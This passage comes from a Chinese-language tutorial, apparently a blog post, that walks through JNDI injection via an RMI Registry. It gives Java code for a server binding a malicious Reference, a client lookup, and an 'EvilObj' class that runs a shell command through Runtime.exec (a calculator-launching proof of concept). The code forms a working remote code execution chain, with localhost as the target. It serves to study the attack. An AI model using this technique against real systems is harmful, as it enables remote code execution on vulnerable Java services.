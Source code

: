 ```java

        String FactoryURL = "http://localhost/";
        Reference reference = new Reference("EvilObj","EvilObj",FactoryURL);
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
        registry.bind("Foo", wrapper);
    }
}
```

Server端以RMI Registry注册一个Reference，并将factoryURL指定为localhost

```java
package train.jndi;

import javax.naming.Context;
import javax.naming.InitialContext;

/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class Client {
    public static void main(String[] args) throws Exception {
        Context ctx = new InitialContext();
        ctx.lookup("rmi://localhost:1099/Foo");
    }
}
```

Client端比较简单，直接以lookup指定的RMI URL即可。根据上面的过程图，我们可以知道的是最终执行EvilObj的地方是Client端(jndi发起lookup的方法)。最后我们创一个EvilObj

```java
/**
 * @author wh1t3P1g
 * @since 2020/2/4
 */
public class EvilObj {

    public EvilObj() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"/bin/sh", "-c", "open /System/Applications/Calculator.app"};
        rt.exec(commands);
    }
}
```

`javac EvilObj.java`生成EvilObj.class，然后挂载到一个web服务上就可以了。可以直接选择python来挂载

那么我们来具体看一下lookup函数具体做了什么

首先InitialContext的lookup函数，会根据提供的URL自动选择合适的InitialContext（分离出协议后进行选择），比如此时的InitialContext为rmiURLContext

![image-20200204203703902](/images/jndi-with-rmi-20200209/image-20200204203703902-1255889.png)

